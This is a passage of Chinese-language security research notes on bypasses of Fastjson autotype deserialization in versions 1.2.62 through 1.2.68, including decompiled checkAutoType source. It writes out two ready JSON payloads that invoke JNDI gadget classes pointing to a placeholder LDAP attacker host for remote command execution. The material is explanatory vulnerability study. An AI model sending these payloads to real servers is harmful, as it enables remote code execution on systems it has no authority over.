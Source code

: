 <font style="color:rgb(51, 51, 51);">1.2.62的RCE也很简单，由于</font>`<font style="background-color:rgb(247, 247, 247);">CVE-2020-8840</font>`<font style="color:rgb(51, 51, 51);">的gadget绕过了fastjson的黑名单而导致的，当服务端存在收到漏洞影响的xbean-reflect依赖并且开启fastjson的autotype时，远程攻击者可以通过精心构造的请求包触发漏洞从而导致在服务端上造成远程命令执行的效果。</font>

```plain
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://x.x.x.x/Exp"}
```

## <font style="color:rgb(51, 51, 51);">fastjson 1.2.66</font>
<font style="color:rgb(51, 51, 51);">和1.2.62类似，在开启AutoType的情况下，由于黑名单过滤不全而导致的绕过问题</font>

```plain
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://x.x.x.x/Exp"}
```

## 1.2.68
绕过方法：找调用期望类的类

<font style="color:rgb(22, 18, 9);">期望类的功能主要是实现/继承了期望类的class能被反序列化出来（并且不受autotype影响），寻找checkAutoType方法的调用，要求exceptClass不为空。</font>

直到68版本之后出现了新的安全控制点safeMode，如果开启，在checkAtuoType的时候会直接抛出异常

```plain
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    if (typeName == null) {
        return null;
    } else {
        if (this.autoTypeCheckHandlers != null) {
            Iterator var4 = this.autoTypeCheckHandlers.iterator();

            while(var4.hasNext()) {
                AutoTypeCheckHandler h = (AutoTypeCheckHandler)var4.next();
                Class<?> type = h.handler(typeName, expectClass, features);
                if (type != null) {
                    return type;
                }
            }
        }

        int safeModeMask = Feature.SafeMode.mask;
        boolean safeMode = this.safeMode || (features & safeModeMask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & safeModeMask) != 0;
        if (safeMode) {
            throw new JSONException("safeMode not support autoType : " + typeName);
        } else if (typeName.length() < 192 && typeName.length() >= 3) {
            boolean expectClassFlag;
            if (expectClass == null) {
                expectClassFlag = false;
            } else if (expectClass != Object.class 
            && expectClass != Serializable.class 
            && expectClass != Cloneable.class
            && expectClass != Closeable.class
            && expectClass != EventListener.class 
            && expectClass != Iterable.class 
            && expectClass != Collection.class) {
                expectClassFlag = true;
            } else {
                expectClassFlag = false;
            }
```
